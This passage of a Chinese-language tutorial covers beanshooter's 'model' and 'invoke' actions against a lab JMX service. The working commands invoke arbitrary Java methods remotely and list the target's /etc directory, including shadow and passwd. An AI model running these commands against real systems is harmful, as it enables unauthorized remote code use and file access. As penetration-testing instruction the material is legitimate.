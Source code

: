 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJf7MZEic3Rz968y0MGxbloicxykJvzALjibPrGrU190tzwkHQoyy7EyVrTA/640?wx_fmt=png&from=appmsg "")  
##### 模型操作  
  
model action实现了Markus Wulftange提出的一种技术，允许使用者调用Java的任意公共类和静态方法，此外还可以在用户创建的对象实例上调用公共对象方法，唯一的要求是所使用的方法参数和所提供的对象实例(对于非静态方法)是可序列化的，下面介绍了一个使用示例，其中File对象作为对象实例提供并对其调用String[] list()操作：  
```
java -jar beanshooter.jar model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfa5SJbMwMdiaIVlEbxSsUzkMiaLSjRGtdOTdqbmtZnoJoladu2bmsfpGA/640?wx_fmt=png&from=appmsg "")  
```
java -jar beanshooter.jar invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfa1uLOLJFFhqllnmYmgNfXoeSrY3UgLyxS1QdmW5QkkWe9ialKPTjjRw/640?wx_fmt=png&from=appmsg "")  
  
setManagedResource方法也是可用的，它可以用于更改要操作的对象实例：  
```
java -jar beanshooter.jar invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'setManagedResource(Object a, String b)' 'new java.io.File("/etc")' objectReference
[+] Call was successful.
java -jar beanshooter.jar invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
apk
shadow
crontabs
sysctl.conf
nsswitch.conf
profile.d
group
services
protocols
network
opt
logrotate.d
issue
passwd
init.d
udhcpd.conf
alpine-release
motd
hosts
sysctl.d
fstab
inittab
ssl
periodic
ssl1.1
os-release
modules
securetty
profile
modprobe.d
hostname
conf.d
modules-load.d
mtab
shells
secfixes.d
resolv.conf
root@RedTeam:~#
```  
  